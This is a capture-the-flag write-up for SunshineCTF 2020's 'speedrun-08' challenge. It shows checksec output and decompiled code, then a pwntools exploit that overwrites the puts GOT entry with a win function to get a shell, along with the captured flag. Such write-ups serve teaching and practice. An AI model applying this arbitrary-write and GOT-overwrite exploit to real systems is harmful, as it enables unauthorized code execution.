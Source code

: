 # **speedrun-08**
## Task
nc chal.2020.sunshinectf.org 30008
File: chall_08
Tag: binary exploitation 

## Solution

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
* No canary assume BOF
* No PIE assume ROP
* System 64 bit

### Decompile with ghidra
```c
void main(void)
{
  undefined8 local_18;
  int local_c;
  
  __isoc99_scanf(&DAT_0040066c,&local_c);
  __isoc99_scanf(&DAT_0040066f,&local_18);
  *(undefined8 *)(target + (long)local_c * 8) = local_18;
  puts("hi");
  return;
}

void win(void)
{
  system("/bin/sh");
  return;
}
```
With the decompile code, `*(undefined8 *)(target + (long)local_c * 8) = local_18;` is a pointer which is pointing to some address and adjust that address's value

No PIE, then we think overwrite the function with `win`, So target is `puts`. Set the modifying pointer to the `puts` address then overwrite with `win` address
### Exploit
```python
from pwn import *

binary = context.binary = ELF('./chall_08')
p = remote('chal.2020.sunshinectf.org',30008)
p.sendline(str((binary.got.puts-binary.sym.target)//8))
p.sendline(str(binary.sym.win))
p.interactive()
```
### Output
```bash
[*] '/home/kali/speedrun_sunshineCTF2020/chall_08'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30008: Done
[*] Switching to interactive mode
$ ls
chall_08
flag.txt
$ cat flag.txt
sun{fiction-fa1a28a3ce2fdd96}
```